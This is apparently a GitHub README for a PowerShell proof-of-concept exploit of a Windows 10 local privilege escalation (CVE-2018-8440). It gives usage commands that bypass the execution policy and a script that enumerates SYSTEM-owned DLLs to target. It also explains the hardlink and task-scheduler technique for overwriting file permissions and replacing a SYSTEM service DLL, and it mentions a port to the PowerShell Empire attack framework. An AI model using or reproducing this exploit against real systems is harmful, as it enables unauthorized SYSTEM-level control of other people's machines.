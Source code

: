 #Working Windows 10 SYSTEM DLL injection EoP (Sunghyun Edit)

# Usage
```
Set-ExecutionPolicy Bypass Process
.\exploit.ps1 -TargetFile C:\Windows\Some.dll
```
This will exploit the Windows operating system allowing you to modify the file Some.dll.

# Example
```
Set-ExecutionPolicy Bypass Process
.\example.ps1
```
https://youtu.be/rNSpxJd3_BM
# Finding Vulnerable DLL files
```
$aapsid = 'NT AUTHORITY\SYSTEM'

ForEach($file in (Get-ChildItem -File -recurse -Path 'C:\windows' -Filter *.dll -ErrorAction SilentlyContinue)) {
 
   $acl = Get-Acl -path $file.FullName
   ForEach($ace in $acl.Access) {
      If(($ace.FileSystemRights -eq
           [Security.AccessControl.FileSystemRights]::FullControl) -and 
            $ace.IdentityReference.Value -in $aapsid) {
               Write-Output $file.FullName
              
      }
        
   }
   
   }
```
# Further Information
The first PoC was released by [@SandboxEscaper](https://twitter.com/sandboxescaper) on the 27th August 2018, however, is now removed from GitHub.

The exploit.dll and the code for the TriggerXPSPrint.cpp comes from her original PoC. The exploit.dll simply launches notepad.
I tried to replicate the XPS print api into C# but using `System.Printing` or `System.Drawing.Printing` only calls the print job within the current user context, you need to use the API to get the spooler service to initate the print job.

The actual exploit process is the native hardlink and using the `Schedule.Service` COM object to execute the method `SetSecurityDescriptor`. This then overwrites the permissions on the hardlinked file thus also updating the DACL on the targetted file. The `example.ps1` is purely an instance of how you could use this exploit to replace a SYSTEM level service dll file. In this case it was the XPS printer, but it could also be an executable stored within `C:\Program Files` for example. 

This was patched by Microsoft on the 11th September 2018. The following link has the relevant KB numbers:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440

I since then have modified this to work with PowerShell Empire, you can read the pull request here:
https://github.com/EmpireProject/Empire/pull/1230

I have only tested this on Windows 10, in theory it should work on other versions.
